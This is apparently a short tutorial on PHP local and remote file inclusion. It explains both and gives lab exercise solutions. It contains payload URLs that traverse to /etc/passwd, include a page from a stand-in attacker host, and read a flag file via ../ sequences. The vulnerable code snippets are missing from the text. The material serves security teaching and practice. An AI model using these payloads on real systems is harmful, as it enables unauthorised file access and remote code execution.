


Hi,
It's me Abhiram V aka AnonArtist and this is Code Review Series and here we talk about some vulnerabilities and how to exploit them.
So let's start from File Inclusion vulnerability in PHP
The File Inclusion attacks are of two types: Local File Inclusion and Remote File Inclusion (LFI & RFI respectively).
LFI is a vulnerability which allows the attacker to access unauthorized or sensitive files available on the local server
for example: http://victim.com/vulnerable.php?test=../../../../etc/passwd
whereas RFI allows the attacker to access any files or execute malicious files on remote servers
for example: http://victim.com/vulnerable.php?test=http://www.attacker_site.com/malicious_page
Both of which is work by making use of the included or require functionality. So that when comes to whitebox testing we can look for such vulnerable functions if that exist there is a high probability of existence of bug.Let us see some example:
Exercise-1 :
The vulnerable code is

Here from the PHP code, we can clearly understand that there is a GET parameter namely 'file' is used and which uses the included functionality which is vulnerable to file inclusion attack and this is a GET request so that we can perform this from browser URL itself.
Solution :
http://127.0.0.1:7001/index.php?file=/home/flag.txt
Exercise-2 :
The vulnerable code is

This challenge is the same as Exercise-1 but the difference is here we can't directly use /etc/password or anything because the parameter is not called from its root directory so we need to do a path traversal attack.
A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder by manipulating variables that reference files with “dot-dot-slash (../)”
So do the same what we did in Exercise-1 and use ../ to go back to the root directory.
Solution :
http://127.0.0.1:7002/index.php?file=../../../../../home/flag.txt